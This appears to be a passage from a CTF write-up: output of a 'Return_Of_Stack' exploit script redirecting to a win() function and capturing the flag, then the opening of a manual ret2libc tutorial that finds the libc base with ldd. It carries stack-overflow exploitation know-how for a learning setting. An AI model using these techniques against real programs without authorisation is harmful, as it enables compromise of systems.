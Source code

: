 output : 
```py
C:\Citadel_CTF_Writeups\Return_Of_Stack>python exploit_final.py
win() address: 0x4011a0
ret gadget: 0x40101a

connect ti host
[x] Opening connection to chall_citadel.cryptonitemit.in on port 56743
[x] Opening connection to chall_citadel.cryptonitemit.in on port 56743: Trying 74.225.246.247
[+] Opening connection to chall_citadel.cryptonitemit.in on port 56743: Done
sending offset: 72, length: 88)
server output :
[x] Receiving all data
[x] Receiving all data: 1B
[x] Receiving all data: 33B
[x] Receiving all data: 52B
[+] Receiving all data: Done (52B)
[*] Closed connection to chall_citadel.cryptonitemit.in port 56743
b'\ncitadel{4lw4y5_b0rr0w_&_r3turn}\nyou got the solve!\n'


citadel{4lw4y5_b0rr0w_&_r3turn}
you got the solve!

closed and if it reached here itll work i think

```


# ret2libc exploitation example (source in resouces)

- we can use pwntools to simplify the exploit but here it ha been done manually to learn the inner workings

## Manual Exploitation

### Getting Libc and its base

Fortunately Linux has a command called `ldd` for dynamic linking. If we run it on our compiled ELF file, it'll tell us the libraries it uses and their base addresses.

```
$ ldd vuln-32 
	linux-gate.so.1 (0xf7fd2000)
	libc.so.6 => /lib32/libc.so.6 (0xf7dc2000)
	/lib/ld-linux.so.2 (0xf7fd3000)
```

We need `libc.so.6`, so the base address of libc is `0xf7dc2000`.

{% hint style="info" %}
Libc base and the system and /bin/sh offsets may be different for you. This isn't a problem - it just means you have a different libc version. Make sure you use **your** values.
{% endhint %}
